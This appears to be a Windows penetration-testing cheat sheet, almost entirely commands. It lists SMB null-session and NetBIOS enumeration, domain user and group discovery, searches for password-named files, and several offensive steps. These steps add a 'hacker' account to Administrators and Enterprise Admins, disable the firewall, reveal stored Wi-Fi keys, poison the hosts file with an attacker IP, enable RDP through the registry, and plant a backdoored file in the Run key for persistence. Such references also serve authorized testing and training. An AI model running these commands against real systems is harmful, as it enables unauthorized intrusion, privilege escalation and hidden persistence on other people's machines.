 Windows


### Anonymous users can obtain the Windows password policy

msfconsole
use auxiliary/scanner/smb/smb_enumusers
------------------------------------------------------------------------------------------------------

### CIFS NULL Session Permitted

enum4linux -a <target IP>

rpcclient -U "" <target IP>
Enter  's password: <return>
rpcclient $>
  enumdomusers
  enumdomusers
  netshareenum
  netshareenumall
  querydominfo
  getdompwinfo
  srvinfo

net use \\target IP\ipc$ "" /u:""            * Windows
------------------------------------------------------------------------------------------------------

### CIFS Share Writeable By Everyone

Places > Network > Browse Network

------------------------------------------------------------------------------------------------------

### Connect anonymously

smbclient -N -L <target IP>

### Connect with credentials

smbclient -W domain -U user -L <target IP>
------------------------------------------------------------------------------------------------------

### NetBIOS and SMB

nmap -Pn -n -T4 -p139,445 --script=smb-check-vulns --script-args=unsafe=1 <range>

enum -G <target IP>                         * Windows
enum -P <target IP>

nbtenum -r <target IP>                      * Windows
nbtenum -q <target IP>

nbtscan -r <target range>
nbtscan -f hosts.txt
------------------------------------------------------------------------------------------------------

### Show domain users and group information

DumpSec
------------------------------------------------------------------------------------------------------

### Show members of domain groups

global.exe "domain admins" \\dc-controller
------------------------------------------------------------------------------------------------------

### Search all folders for filenames that include 'password'.

dir /s /p *password*.*                      * Windows
------------------------------------------------------------------------------------------------------

### net commands

net accounts                                * Local password policies.
net accounts /domain
net config workstation
net localgroup                              * Local Security Groups.
net localgroup /domain                      * Domain Security Groups.
net localgroup Administrators               * Users in the local Administrators Security Group.
net localgroup Administrators /domain       * Users in the domain Administrators Security Group.
net share
net user                                    * Local users.
net user /domain > users.txt                * All users in the current user's domain (take a few to run).
net user hacker /domain                     * Info on domain user.
net view                                    * Computers in the users domain and other domains.
net view /domain                            * Computers in other domain.

net user hacker password /add
net localgroup administrators /add hacker
------------------------------------------------------------------------------------------------------

### Domain accounts

net group “Domain Admins" /domain > domain-admin.txt
net group “Domain Users" /domain > domain-users.txt

net user hacker password /add /domain
net group "Enterprise Admins" hacker /add /domain
net groups "Enterprise Admins" /domain
------------------------------------------------------------------------------------------------------

### Enumeration

arp -a
ipconfig /all
ipconfig /displaydns
netstat -ano
netstat -ano | findstr LISTENING
netstat -c
netstat -ns
netstat -vb
route print

date /t & time /t
doskey /history
gpresult /COMPUTERNAME
gpresult /%username%
gpresult /z
nbtstat -A <target IP>
nbtstat -a <name of target>
net group
net group administrators
net session
net start
set
tasklist /m
tasklist /svc
tasklist /v

dir c:\*.xls /s				         * Show all Excel docs.
dir c:\*.xlsx /s			              * Show all Excel docs.
dir c:\*.ppt /s				         * Show all PowerPoint docs.
dir c:\*.pptx /s			              * Show all PowerPoint docs.
dir c:\*.doc /s				         * Show all Word docs.
dir c:\*.docx /s			              * Show all Word docs.
dir c:\*.pdf /s				         * Show all PDFs.
------------------------------------------------------------------------------------------------------

### Firewall

netsh firewall show config
netsh firewall add portopening TCP 8081 ePO
netsh firewall set opmode disable           * Disable firewall.

firewall show state
netsh firewall set opmode disable

netsh wlan show interfaces
netsh wlan show drivers
netsh wlan show networks
netsh wlan show profiles
netsh wlan show profiles name="name"
show profiles name="name" key=clear
------------------------------------------------------------------------------------------------------

### Local DNS spoofing

echo <attacker IP> facebook >> %WINDIR%\System32\drivers\etc\hosts
type %WINDIR%\System32\drivers\etc\hosts
------------------------------------------------------------------------------------------------------

### Misc

cd \WINDOWS\system32\
type %SYSTEMDRIVE%\boot.ini
type %WINDIR%\win.ini
fsutil fsinfo drives

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh rdesktop <target-IP>
------------------------------------------------------------------------------------------------------

HKLM
File > Load Hive
Just give it a name.
/Microsoft Windows/Current Version/Run
Add your back doored file.
